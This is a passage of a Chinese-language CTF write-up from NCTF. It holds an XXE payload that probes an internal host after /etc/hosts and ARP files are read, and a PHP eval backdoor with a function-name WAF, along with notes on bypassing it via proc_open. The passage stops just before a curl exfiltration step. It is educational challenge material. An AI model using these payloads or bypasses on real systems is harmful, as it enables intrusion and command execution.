 好像脑洞一样的题目。。依然是利用xxe。  

正解是去内网探测，但是为什么这样做呢？猜测是在不知道做什么的情况下，多收集主机信息，读取host，passwd等等各种文件，或者看一些log。  

读取`/etc/hosts`与`/proc/net/arp`推得内网存活主机ip为`192.168.1.8`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "http://192.168.1.8">
 ]>

<user><username>&xxe;</username><password>asd</password></user>
```

`NCTF{XXE-labs_is_g00d}`

### Hacker_BackDoor

首先审计代码，这里只显示关键代码

```php
<?php

$code = $_GET['code'];
$usrful = $_GET['useful'];

function waf($a){
    $dangerous = get_defined_functions();
    array_push($dangerous["internal"], 'eval', 'assert');
    foreach ($dangerous["internal"] as $bad) {
        if(strpos($a,$bad) !== FALSE){
        return False;
        break;
        }
    }
    return True;
}

if(file_exists($usrful)){
    if(waf($code)){
        eval($code);
    }
    else{
        die("oh,不能输入这些函数哦 :) ");
    }
} 
```

get_defined_functions()函数包含了所有预定义的函数，除了echo。  

绕过的基本思路是通过$"函数名称"(<参数>,...)的方法来调用  

这里不能用system函数，需要用proc_open()方法  

通过curl外带回显结果的方法：
